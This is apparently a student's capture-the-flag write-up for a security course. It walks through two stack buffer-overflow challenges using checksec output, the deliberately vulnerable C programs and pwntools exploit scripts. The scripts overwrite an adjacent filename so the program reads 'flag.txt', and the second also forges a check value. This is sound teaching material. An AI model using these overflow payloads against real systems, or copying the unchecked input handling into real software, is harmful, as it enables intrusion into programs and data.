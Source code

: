 # FSI-CTFS: Week #5

**Goal:** Come up with an exploit to cause a buffer overflow on the program running in the server.

### **First Challenge**

#### **Checksec**

- Architecture is x86
- No cannaries in the stack
- Stack has execute permissions (NX -no execute- disabled)
- No address randomization
- Regions in the memory with RWX permissions


#### **Program analysis**

- No check for overflows
- File opened is saved in an array which is exactly above buffer
- Buffer value is read from input
- Flag is saved in another file called flag.txt

**Program**

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%28s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");

    FILE *fd = fopen(meme_file,"r");

    while(1){
        if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);

    return 0;
}
```

#### **Attack**

- Cause a buffer overflow on 'buffer' by writing more than 20 bytes
- After 20 bytes/chars, write the name of file you want to be open (flag.txt)
- By editing the given python script, we can achieve our goal as shown below


**Python Scipt**

``` python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"1234567890123456789\0flag.txt")
r.interactive()
``` 

![Terminal print of attack and checksec](imgs/flag1.png)

### **Second Challenge**


#### **Checksec**

> Checksec gives the same information as the program in the first challenge

#### **Program analysis**

- The program implemented a minor defense. The new version has another buffer in between the buffer we overflow and the target one
- The value of this one is checked to see if it was adulterated

**Program**

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char val[4] = "\xef\xbe\xad\xde";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    if(*(int*)val == 0xfefc2223) {
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);
    
    return 0;
}
```

#### **Attack**
- To bypass this all we need to do is write the correct sequence of characters in this buffer, which we did by editing the python exploit once again

**Python Scipt**

``` python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

string = bytearray(b"12345678901234567890")
string.append(0x23)
string.append(0x22)
string.append(0xfc)
string.append(0xfe)
string.extend(b"flag.txt")

r.recvuntil(b":")
r.sendline(string)
r.interactive()
```

> And obtained our second desired flag!

![Terminal print of attack](imgs/flag2.png)